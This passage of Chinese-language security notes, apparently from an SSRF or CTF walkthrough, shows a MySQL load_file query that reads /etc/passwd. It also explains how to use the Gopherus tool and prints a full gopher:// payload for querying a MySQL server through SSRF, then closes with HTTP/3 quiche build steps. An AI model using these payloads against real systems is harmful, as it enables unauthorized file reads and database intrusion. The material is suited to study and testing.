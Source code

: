 #### MySQL文件读取
```sql
select load_file('/etc/passwd');
```
#### gopher攻击mysql

Gopherus工具是用来专门生成gopher协议的payload工具，通过gopher协议的以及各种被攻击应用的tcp包特点来构造payload

目前支持生成payload应用有：
```
MySQL (Port:3306)
FastCGI (Port:9000)
Memcached (Port:11211)
Redis (Port:6379)
Zabbix (Port:10050)
SMTP (Port:25)
```
下载
```shell
git clone https://www.github.com/tarunkant/Gopherus.git
./gopherus.py -h
```

使用
使用gopher协议查询数据库名称，要在SSRF提交处多执行几次才能够成功，数据库名称为joomla
```
./gopherus.py --exploit mysql
Give MySQL username: goblin                             
Give query to execute: show databases;

gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%73%68%6f%77%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01
```

#### http3环境访问

首先安装HTTP3所需要的环境，详情见代码块。

```shell
1.下载quiche

git clone --recursive https://www.github.com/cloudflare/quiche

2.安装cargo组件

sudo apt install cargo

3.cmake组件

sudo apt install cmake

4.安装例子

有报错，执行下一步

cd ./quiche

cargo build --examples

5.卸载rustc

apt purge rustc
```